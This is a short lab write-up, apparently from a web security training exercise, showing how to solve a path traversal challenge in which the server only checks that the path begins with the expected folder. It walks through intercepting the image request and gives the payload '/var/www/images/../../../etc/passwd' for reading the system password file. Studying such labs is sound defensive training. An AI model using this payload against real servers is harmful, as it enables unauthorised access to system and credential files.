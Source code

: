 #+title: File path traversal, validation of start of path

* Table of Contents :toc:
- [[#lab-contains][Lab Contains]]
- [[#end-goal][End Goal]]
- [[#solution][Solution]]
  - [[#send-payload][Send Payload]]
- [[#payload-to-solve-the-lab][Payload to solve the lab]]

* Lab Contains
- path traversal vulnerability in display of product images
- transmits full file path via request parameter
- validates the supplied path start with the expected folder

* End Goal
- retrieve contents of the ~/etc/passwd~
* Solution
- Access the lab
- Open a product image on new tab of browser and intercept the request with proxy (burpsuite)
- Send the request to repeater & observe
- ~GET /image?filename=/var/www/images/31.jpg HTTP/2~
- So in here we can see that filename parameter is using full path of the file
  - Now we can try with full path to retrieve our ~passwd~ file contents
  - Payload ~filename=/etc/passwd~
** Send Payload
- send this ~/etc/passwd~ payload and look at the response
  - Server give ~400: bad request~ It says /"Missing parameter 'filename'"/
*** Fix the error
we can move upto directory of /etc and access ~passwd~ file
- ~GET /image?filename=/var/www/images//../../../etc/passwd HTTP/2~
- Success 200:OK
* Payload to solve the lab
~/var/www/images/../../../etc/passwd~

